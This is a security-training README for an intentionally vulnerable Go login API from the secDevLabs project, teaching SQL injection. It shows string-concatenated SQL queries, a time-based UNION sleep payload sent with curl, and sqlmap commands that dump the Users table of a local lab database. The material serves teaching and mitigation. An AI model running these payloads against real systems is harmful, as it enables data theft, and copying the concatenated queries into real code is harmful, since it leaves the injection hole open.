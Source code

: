 # CopyNPaste API

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.

<img src="images/attack-0.png" align="center"/>

To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) --
```

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later, thus confirming we can execute commands on the server:

<img src="images/attack-3.png" align="center"/>

#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

* Run SQL queries in the database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10001